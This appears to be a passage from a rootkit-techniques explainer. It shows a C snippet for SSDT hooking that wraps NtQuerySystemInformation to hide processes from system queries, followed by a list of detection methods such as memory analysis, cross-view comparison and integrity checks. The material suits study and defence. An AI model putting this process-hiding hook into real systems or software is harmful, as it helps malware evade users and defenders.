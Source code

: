 **3. SSDT Hooking:**
```c
// Hook System Service Descriptor Table
typedef NTSTATUS (*NtQuerySystemInformation_t)(
    SYSTEM_INFORMATION_CLASS SystemInformationClass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG ReturnLength
);

static NtQuerySystemInformation_t OriginalNtQuerySystemInformation;

NTSTATUS HookedNtQuerySystemInformation(
    SYSTEM_INFORMATION_CLASS SystemInformationClass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG ReturnLength
) {
    NTSTATUS status;
    
    // Call original function
    status = OriginalNtQuerySystemInformation(
        SystemInformationClass,
        SystemInformation,
        SystemInformationLength,
        ReturnLength
    );
    
    // Hide processes if querying process information
    if (SystemInformationClass == SystemProcessInformation) {
        hide_processes_from_list(SystemInformation);
    }
    
    return status;
}
```

**Detection Methods:**
```bash
# Memory analysis
- Volatility framework analysis
- Memory dump examination
- Kernel memory scanning
- Process memory analysis
- Driver signature verification

# Behavioral analysis
- System call monitoring
- API hooking detection
- Process behavior analysis
- Network traffic analysis
- File system monitoring

# Cross-view detection
- Compare user-space and kernel-space views
- Check system call table integrity
- Verify driver signatures
- Analyze boot sector
- Compare registry views

# Integrity checking
- File system integrity checks
- Boot sector verification
- Kernel module verification
- System file checksums
```